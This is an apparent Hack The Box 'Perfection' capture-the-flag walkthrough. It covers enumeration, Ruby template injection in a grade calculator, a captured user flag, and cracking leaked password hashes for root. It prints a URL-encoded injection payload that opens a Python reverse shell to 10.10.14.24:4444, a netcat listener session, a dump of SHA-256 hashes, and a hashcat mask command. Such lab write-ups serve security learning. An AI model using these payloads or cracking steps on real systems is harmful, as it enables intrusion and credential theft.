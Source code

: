 ```yaml
---
title: HTB:Perfection
date: 2024-03-15
categories: [HTB, LINUX]
tags: [htb, linux]     # TAG names should always be lowercase
image:
  path: https://i.ibb.co/ftpjjzd/perfection.jpg
---
```


## Enumeration

![nmap-scan](https://i.ibb.co/PF5YTgz/nmap-scan.jpg)

The initial Nmap scan reveals two open ports: SSH (22/tcp) and HTTP (80/tcp). SSH is running on Ubuntu Linux, while the web server is hosting a service titled "Weighted Grade Calculator" on nginx. 

![whatweb](https://i.ibb.co/ZhWc7kc/whatweb.jpg)

 Web server is running a combination of nginx and WEBrick with Ruby version 3.0.2
 
## WebApp

![web](https://i.ibb.co/pxQHQNj/web.jpg)

![calc](https://i.ibb.co/XXJnmDK/perfection-calc.jpg)

After figuring out Weight grade calc is Vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), I tried some Ruby related SSTI payloads, since the WebApp is built with Ruby.

```ruby
<%= 7*7 %> = 49
```
![ssti](https://i.ibb.co/xqV1FWP/ssti.jpg)

## Reverse shell
 Generate a encoded reverse shell with [revshell.com](https://revshells.com/) 
 
    category1=mrx%0A<%25%3d+`python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.24",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")'`+%25>&grade1=10&weight1=10&category2=b&grade2=20&weight2=20&category3=c&grade3=30&weight3=30&category4=d&grade4=20&weight4=20&category5=e&grade5=20&weight5=20
 
 ***%0A  - newline character***

![shell](https://i.ibb.co/S6s9x91/reverse-shell.jpg)

Send the payload & catch the shell with Netcat listener.

![nc](https://i.ibb.co/6PQCyHM/nc.jpg)

## User Flag

    kali@kali ~ [1]> sudo nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.10.14.24] from (UNKNOWN) [10.10.11.253] 60468
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    susan@perfection:~/ruby_app$ ls
    ls
    main.rb  public  views
    susan@perfection:~/ruby_app$ cd
    cd
    susan@perfection:~$ ls
    ls
    linpeas.sh  Migration  ruby_app  user.txt
    susan@perfection:~$ cat user.txt
    cat user.txt
    7b05f65f1ea8adeced421f18ad692d28

## Root Flag

After further enumerations , found a hash for Susan .

    susan@perfection:~$ cd Migration
    cd Migration
    susan@perfection:~/Migration$ ls
    ls
    pupilpath_credentials.db
    susan@perfection:~/Migration$ strings pupilpath_credentials.db
    strings pupilpath_credentials.db
    SQLite format 3
    tableusersusers
    CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    name TEXT,
    password TEXT
    Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
    David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
    Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
    Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
    Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f


![mail](https://i.ibb.co/s2CMP1X/mail.jpg)

 Customize ​a mask and crack the hash with hashcat to retrieve the root access password.

    hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

```shell
sudo su
```

![root](https://i.ibb.co/NjF6wdn/root.jpg)
